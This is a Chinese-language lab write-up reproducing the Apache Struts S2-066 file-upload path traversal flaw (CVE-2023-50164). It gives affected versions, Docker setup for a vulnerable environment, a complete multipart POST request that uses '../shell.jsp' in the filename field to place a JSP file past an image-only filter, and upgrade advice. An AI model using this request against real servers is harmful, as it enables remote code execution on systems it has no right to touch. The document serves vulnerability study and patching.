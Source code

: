 # Apache Struts S2-066 远程代码执行漏洞 CVE-2023-50164

## 漏洞描述

Apache Struts2 是一个开源的 Java Web 应用程序开发框架，旨在帮助开发人员构建灵活、可维护和可扩展的企业级 Web 应用程序。

该漏洞存在于 Apache Struts 中，是一个代码执行漏洞。攻击者可以操纵文件上传参数来执行路径遍历，进而上传可用于执行远程代码执行的恶意文件。

参考链接：

- [Apache Struts2 文件上传分析(S2-066)](https://y4tacker.github.io/2023/12/09/year/2023/12/Apache-Struts2-%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%E5%88%86%E6%9E%90-S2-066/ )
- https://github.com/Trackflaw/CVE-2023-50164-ApacheStruts2-Docker

## 漏洞影响

```
Struts 2.0.0-2.3.37
Strust 2.5.0-2.5.32
Strust 6.0.0-6.3.0
```

## 环境搭建

通过项目 [CVE-2023-50164-ApacheStruts2-Docker](https://github.com/Trackflaw/CVE-2023-50164-ApacheStruts2-Docker) 搭建一个 Struts 6.3.0 漏洞环境：

```
git clone https://github.com/Trackflaw/CVE-2023-50164-ApacheStruts2-Docker.git
cd CVE-2023-50164-ApacheStruts2-Docker
docker build --ulimit nofile=122880:122880 -m 3G -t cve-2023-50164 .
docker run -p 8080:8080 --ulimit nofile=122880:122880 -m 3G --rm -it --name cve-2023-50164 cve-2023-50164
```

可更新 maven 源加速构建，在 Dockerfile 同级目录创建一个自定义的 settings.xml：

```
<settings xmlns="http://maven.apache.org/SETTINGS/1.0.0"
          xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
          xsi:schemaLocation="http://maven.apache.org/SETTINGS/1.0.0
                     http://maven.apache.org/xsd/settings-1.0.0.xsd">
  <mirrors>
    <mirror>
        <id>aliyun-maven</id>
        <mirrorOf>central</mirrorOf>
        <name>Aliyun Maven</name>
        <url>https://maven.aliyun.com/repository/central</url>
    </mirror>
  </mirrors>
</settings>
```

在 Dockerfile 中新增一行，将自定义的 `settings.xml` 复制到 Maven 的配置目录中，替换默认文件：

```
COPY settings.xml /root/.m2/settings.xml
```

重新执行 `docker build` 与 `docker run` 即可。

通过 `curl` 验证服务是否启动：

```
curl http://your-ip:8080/upload.action
```

或访问 `http://your-ip:8080/upload.action` 查看上传页面。

![](images/Apache%20Struts%20S2-066%20远程代码执行漏洞%20CVE-2023-50164/image-20241217184117699.png)

## 漏洞复现

在该环境中做了文件后缀限制，只能上传图片，不允许直接上传 `.jsp` 文件：

![](images/Apache%20Struts%20S2-066%20远程代码执行漏洞%20CVE-2023-50164/image-20241217184334129.png)

根据 HashMap 中存储的调用顺序构造 payload：

```
POST /upload.action HTTP/1.1
Host: your-ip:8080
Content-Length: 319
Cache-Control: max-age=0
Origin: http://your-ip:8080
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryfZRVTHWYyGlXGAeY
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://your-ip:8080/upload.action
Accept-Encoding: gzip, deflate, br
Accept-Language: en
Cookie: JSESSIONID=ED2FB48CE518AF954B3EA4F97AC1FF17
Connection: keep-alive

------WebKitFormBoundaryfZRVTHWYyGlXGAeY
Content-Disposition: form-data; name="Upload"; filename="test.png"
Content-Type: image/png

<%= "awesome_poc" %>

------WebKitFormBoundaryfZRVTHWYyGlXGAeY
Content-Disposition: form-data; name="uploadFileName"; 

../shell.jsp
------WebKitFormBoundaryfZRVTHWYyGlXGAeY--
```

![](images/Apache%20Struts%20S2-066%20远程代码执行漏洞%20CVE-2023-50164/image-20241217191844379.png)

访问上传文件：

```
http://your-ip:8080/shell.jsp
```

![](images/Apache%20Struts%20S2-066%20远程代码执行漏洞%20CVE-2023-50164/image-20241217185122032.png)

## 漏洞修复

根据 `漏洞影响` 中的信息，排查并升级到 `安全版本`，或直接访问参考链接获取官方更新指南，[https://struts.apache.org/download.cgi](https://struts.apache.org/download.cgi)。
